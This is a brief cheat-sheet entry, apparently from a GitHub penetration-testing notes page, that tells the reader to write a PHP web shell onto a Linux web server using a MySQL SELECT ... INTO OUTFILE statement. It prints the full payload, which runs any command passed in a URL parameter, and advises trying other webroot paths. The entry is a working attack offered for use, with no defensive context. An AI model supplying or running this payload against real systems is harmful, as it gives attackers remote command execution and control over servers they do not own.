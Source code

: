 # linux
Write a CMD shell into a file with the right permissions. Issue the following select. (Try different paths for different webservers)
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

